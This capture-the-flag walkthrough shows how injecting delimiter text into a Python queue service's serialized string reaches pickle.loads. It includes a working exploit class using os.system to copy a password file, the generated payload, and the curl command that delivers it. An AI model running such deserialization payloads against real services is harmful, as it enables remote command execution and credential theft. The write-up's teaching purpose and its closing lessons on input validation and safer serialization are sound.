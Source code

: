 ## Level 5

This may be the most realistic of all the challenges:
the code is not trivial,
it is not badly written,
there are no obvious mistakes.
But there is one grave mistake in it,
which is not easy to notice,
and not easy to exploit.
It's a kind of vulnerability that can happen to anyone.

What can we see easily?
The description tells us that `level05` is running an uppercasing service.
We can make calls to it using `curl`,
for example:
```
level04@box:~$ curl localhost:8005 -d 'hello friend'
{
    "processing_time": 1.621246337890625e-05, 
    "queue_time": 0.2028050422668457, 
    "result": "HELLO FRIEND"
}
```

The description also tells us that the service is structured as a queue server and a queue worker.
Sure enough,
in the `main` method we see two modes of invocations of the program,
using the `worker` or `server` as the command line argument.

As usual,
let's start by playing with the input,
and try to misuse the service with invalid values:
```
level04@box:~$ curl localhost:8005 -d $(printf '\x11\x12')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 100')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 1000')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 10000')
...
```

Nothing really interesting seems to happen.
Let's see how the input is really handled by digging in the code.
Let's continue investigating the input,
by tracking down how it is processed.

As we are sending the input using HTTP,
let's look for the HTTP service implementation in the code:
it's in the `QueueHttpServer` class,
which has two methods for handling GET and POST requests.
The `do_GET` method simply prints a help message and doesn't handle any inputs,
so there is nothing we can do there.
The `do_POST` method takes the POST data and passes it to a new `QueueServer` instance:
```
def do_POST(self):
        length = int(self.headers.getheader('content-length'))
        post_data = self.rfile.read(length)
        raw_data = urllib.unquote(post_data)

        queue = QueueServer()
        job = Job()
        type, data, job = queue.run_job(data=raw_data, job=job)
        # ...
```
That in turn passes the input to `QueueUtils.enqueue`:
```
class QueueServer(object):
    # Called in server
    def run_job(self, data, job):
        QueueUtils.enqueue('JOB', data, job)
        # ...
```
... which in turn passes it to `QueueUtils.serialize`:
```
    @staticmethod
    def enqueue(type, data, job):
        # ...
        serialized = QueueUtils.serialize(type, data, job)
        # ...
```
... where we can finally see something interesting:
```
    @staticmethod
    def serialize(direction, data, job):
        serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
        # ...
```
Remember that the `POST` data we send from `curl` is now in the `data` variable in the code.
What will the serialized string look like?
We can trace back that the value of `type` can be either `JOB` or `RESULT`.
The value of `data` is whatever we send with `curl`.
And the value of job is a `Job` object,
dumped using the `pickle` library,
which seems to convert objects to strings.
We can guess that the object is probably restored later in the program from string to an object.

Is this safe?
Not quite,
as we can control the content of `data`.
What will happen if we send `x; job: hello` as the input?
The serialized string will look something like this:
```
type: JOB; data: x; job: hello; job: ???
```
We don't know yet how this serialized string is used later in the program,
but this kind of input definitely looks like a special corner case that might not be easy to handle well.
Let's see what actually happens if we call the service with such method:
```
level04@box:~$ curl localhost:8005 -d 'x; job: hello'
{
    "result": "Job timed out"
}
```
Yes, that doesn't look too good.
It looks like we have successfully corrupted the job data.
Let's track down what happens to the serialized string.
Notice the `deserialize` method in the `QueueUtils` class:
```
    @staticmethod
    def deserialize(serialized):
        parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
        match = parser.match(serialized)
        direction = match.group(1)
        data = match.group(2)
        job = pickle.loads(match.group(3))
```
Well, well, well.
If you are good at regular expressions the problem may be already obvious,
or we could do a quick test using the Python interpreter to see how our input would impact the processing logic here:
```
level04@box:~$ python
Python 2.7.3 (default, Apr 13 2012, 00:19:31) 
[GCC 4.6.1] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import re
>>> serialized = 'type: JOB; data: x; job: hello; job: ???'
>>> parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
>>> match = parser.match(serialized)
>>> match.group(2)
'x'
>>> match.group(3)
'hello; job: ???'
```
So, what we put in the input string after a semicolon,
will become the beginning of the parameter used in `pickle.loads`.
What can we do with this?
What kind of prefix string can we construct that will do something interesting when you call `pickle.loads` on it?

I'm not really familiar with `pickle`,
but we've seen earlier that `pickle.dumps` creates a string from an object,
and `pickle.loads` seems to do the reverse.
Let's play with this a little in a Python interpreter:
```
>>> import pickle
>>> pickle.dumps('hello')
"S'hello'\np0\n."
>>> pickle.dumps([1,2,3])
'(lp0\nI1\naI2\naI3\na.'
>>> pickle.dumps(pickle.dumps)
'cpickle\ndumps\np0\n.'
>>> pickle.loads(pickle.dumps(pickle.dumps))
<function dumps at 0xb7470a74>
```
As expected, `pickle` can serialize values, objects,
functions to string and convert them back.

To exploit this,
we need to read up a bit about pickle in the documentation:
http://docs.python.org/library/pickle.html
Notice the warning right on the front page:

> Warning The pickle module is not intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

Looks like we are on the right track:
we have already found a way to inject data for "unpickling",
now we just need to find out how can we create a pickle that will reveal the content of the password file.
There is a very interesting item in the documentation:
the `__reduce__()` method:

> When the Pickler encounters an object of a type it knows nothing about — such as an extension type — it looks in two places for a hint of how to pickle it. One alternative is for the object to implement a __reduce__() method. If provided, at pickling time __reduce__() will be called with no arguments, and it must return either a string or a tuple.
> (...)
> When a tuple is returned, it must be between two and five elements long. (...) The contents of this tuple are pickled as normal and used to reconstruct the object at unpickling time.
> The semantics of each element are:
> A callable object that will be called to create the initial version of the object. The next element of the tuple will provide arguments for this callable, and later elements provide additional state information that will subsequently be used to fully reconstruct the pickled data.

Based on this we must implement the `__reduce__` method in a certain way:

- Return a tuple
- The first item in the tuple should be a callable
- The second item should be a tuple of arguments for the callable

So, what should be the callable and its arguments?
Perhaps the Python equivalent of the shellcode we used in C programs?
For example,
`os.system` and the argument some appropriate shell command,
like this:
```
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('cat /home/level05/.password > /tmp/p',))

print '; job: ' + pickle.dumps(Exploit())
```

Let's save this in a file,
say `exploit.py`,
run it, and save its output:
```
level04@box:~$ python exploit.py > pickle.txt
level04@box:~$ cat pickle.txt
; job: cposix
system
p0
(S'cat /home/level05/.password > /tmp/p'
p1
tp2
Rp3
.
```
Our crafted input has the right prefix,
`; job: `,
let's send this to the service:
```
level04@box:~$ curl localhost:8005 --data-urlencode @pickle.txt
{
    "result": "Job timed out"
}
level04@box:~$ cat /tmp/p
diebasuw
```

Bingo!

What can we learn from all this?

- Read the documentation carefully:
  it warned about the dangers of unpickling untrusted text loud and clear.
  In fact, is it really necessary to use pickles?
  Use JSON serialization instead, it's safer.

- Always validate user input carefully.
  Trace in your code all the places where the user input might pass through,
  and make sure your input validation is strict enough.
